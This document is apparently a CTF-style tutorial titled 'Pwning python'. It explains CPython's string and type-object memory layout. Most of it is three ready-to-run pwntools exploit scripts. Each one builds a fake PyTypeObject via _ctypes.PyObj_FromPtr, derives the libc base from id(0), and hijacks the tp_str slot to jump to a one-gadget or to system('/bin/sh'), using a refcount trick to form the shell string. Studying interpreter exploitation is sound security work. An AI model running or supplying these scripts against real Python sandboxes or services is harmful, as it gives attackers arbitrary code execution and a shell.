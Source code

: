 # Pwning python

## Strings introduction

In python, the string is located `0x20`/`0x30` (this depends on the python version) after `id(string)`

(This also applies to the class `bytes`)

Example:

```py
>>> string = "Wow!"
>>> id(string)
140737341202416
```

```py
[running] gef> x/s 140737341202416+0x30
0x7ffff73aa020: "Wow!"
```

## Using PyObj_FromPtr

We can create fake objects in order to gain RCE.
Let's look at the `_typeobject` struct:

```c++
struct _typeobject {
    PyObject_VAR_HEAD
    const char *tp_name; /* For printing, in format "<module>.<name>" */
    Py_ssize_t tp_basicsize, tp_itemsize; /* For allocation */

    /* Methods to implement standard operations */

    destructor tp_dealloc;
    Py_ssize_t tp_vectorcall_offset;
    getattrfunc tp_getattr;
    setattrfunc tp_setattr;
    PyAsyncMethods *tp_as_async; /* formerly known as tp_compare (Python 2)
                                    or tp_reserved (Python 3) */
    reprfunc tp_repr;

    /* Method suites for standard classes */

    PyNumberMethods *tp_as_number;
    PySequenceMethods *tp_as_sequence;
    PyMappingMethods *tp_as_mapping;

    /* More standard operations (here for binary compatibility) */

    hashfunc tp_hash;
    ternaryfunc tp_call;
    reprfunc tp_str;
```

`PyObject_VAR_HEAD` is a macro which expands to:

```c++
Py_ssize_t ob_refcnt;
PyTypeObject *ob_type;
```

We can overwrite a field in order to execute what we want.
An interesting one is `tp_str`, why? Let's look at the function `PyObject_Str`:

```c++
0x5555556c9f20 <PyObject_Str+320> call   r11
```

If we're able to control the value of `r11`, we can jump to any address we want!

`tp_str` is going to be called each time we pass an object to `print` or `repr`

Now, we just need to create a fake object with our fake type.
Objects in python are defined as follow:

```c++
typedef struct _object {
    _PyObject_HEAD_EXTRA
    Py_ssize_t ob_refcnt;
    struct _typeobject *ob_type;
} PyObject;

# https://medium.com/@sergioli/how-python-objects-are-implemented-in-c-2f36ff8fb371
```

So we can create an object like this:
`refcount + pointer_to_fake_type`


### Using a one gadget

Since we only call a function without passing arguments to it, we can use a one gadget and hoping it works.

Example:
```py
from pwn import *
from _ctypes import PyObj_FromPtr

context.binary = elf = ELF("/usr/bin/python3")
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")

zero_system_offset = 0x1a7ca0 # This may change depending on your Python version. You can find it by doing id(0) - system inside gdb
libc.address = id(0) + zero_system_offset - libc.sym["system"]

print(f"[ + ] libc base address: {hex(libc.address)}")

one_gadget = libc.address + 0xebc88 # run one_gadget libc.so.6
fake_type = flat(one_gadget)*16

fake_object = flat(
    0xdeadbeef, # ref_count
    id(fake_type) + 0x20 # ob_type
)

print(f"[ + ] Fake object id: {hex(id(fake_object))}")

b = PyObj_FromPtr(id(fake_object) + 0x20)

print(b) # Here we trigger tp_str
```

Result:

![image](https://hackmd.io/_uploads/Ski5bKpQa.png)

And that's it!

But... What if we don't have any one-gadgets!?

Well...

## calling system("/bin/sh")

Somehow, we need to call `system("/bin/sh")`
Luckily for us, when calling `r11`, python will pass the `ref_count` to that function as a first argument:

```c++
*our_function_addr (
   $rdi = 0x00007fffb3b16910 → 0x00000000deadbef1,
   $rsi = 0x0000000000000000,
   $rdx = 0x00007ffff7c52000 → 0x00007ffff7c52000 → [loop detected],
   $rcx = 0x0000555555af7a80 → <_PyRuntime+0> add BYTE PTR [rax], al
)
```

Did you see that? Inside `rdi`, there's a pointer to the `ref_count` we passed before. Let's try putting `/bin/sh` instead of `0xdeadbeef`:

```c++
*our_function_addr (
   $rdi = 0x00007fffb3b16590 → 0x0068732f6e696231 ("1bin/sh"?),
   $rsi = 0x0000000000000000,
   $rdx = 0x00007ffff7c52000 → 0x00007ffff7c52000 → [loop detected],
   $rcx = 0x0000555555af7a80 → <_PyRuntime+0> add BYTE PTR [rax], al
)
```

Something happened to our string. In Python, every time an object is referenced, the `ref_count` is incremented. So we actually need to pass `.bin/sh` instead of `/bin/sh` so, when the object will be referenced, the string becomes `/bin/sh`.

Finally, instead of passing the address of our one-gadget, we pass the address of `system`:

```py
from pwn import *
from _ctypes import PyObj_FromPtr

context.binary = elf = ELF("/usr/bin/python3", checksec=False)
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6", checksec=False)

zero_system_offset = 0x1a7ca0
libc.address = id(0) + zero_system_offset - libc.sym["system"] # The offset will always be the same

print(f"[ + ] libc base address: {hex(libc.address)}")

one_gadget = libc.address + 0xebc88
fake_type = flat(libc.sym['system'])*16

fake_object = flat(
    b'-bin/sh\x00', # ref_count
    id(fake_type) + 0x20 # ob_type
)

print(f"[ + ] Fake object id: {hex(id(fake_object))}")

b = PyObj_FromPtr(id(fake_object) + 0x20)

print(b) # Here we trigger tp_str
```

And... We got a shell!

![image](https://hackmd.io/_uploads/HytNSY6mp.png)


## Note
Since we overwrote other fields while overwriting `tp_str`, we can trigger the call with something like this:

```py
b.a
```

If we decrease the `ref_count` to 0, we can trigger the call without doing nothing!
For example:

```py
from pwn import *
from _ctypes import PyObj_FromPtr

context.binary = elf = ELF("/usr/bin/python3", checksec=False)
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6", checksec=False)

zero_system_offset = 0x1a7ca0
libc.address = id(0) + zero_system_offset - libc.sym["system"] # The offset will always be the same

print(f"[ + ] libc base address: {hex(libc.address)}")

one_gadget = libc.address + 0xebc81
fake_type = flat(one_gadget)*16

fake_object = flat(
    0, # ref_count
    id(fake_type) + 0x20 # ob_type
)

print(f"[ + ] Fake object id: {hex(id(fake_object))}")

b = PyObj_FromPtr(id(fake_object) + 0x20) # We're not touching the object!
```

**These exploits don't work on the first try. It is recommended to run them several times!**

#### source
https://docs.python.org/3.3/c-api/structures.html#:~:text=%3B%20PyTypeObject%20*ob_type%3B-,PyObject_VAR_HEAD,varies%20from%20instance%20to%20instance.
https://github.com/python/cpython/blob/main/Objects/typeobject.c
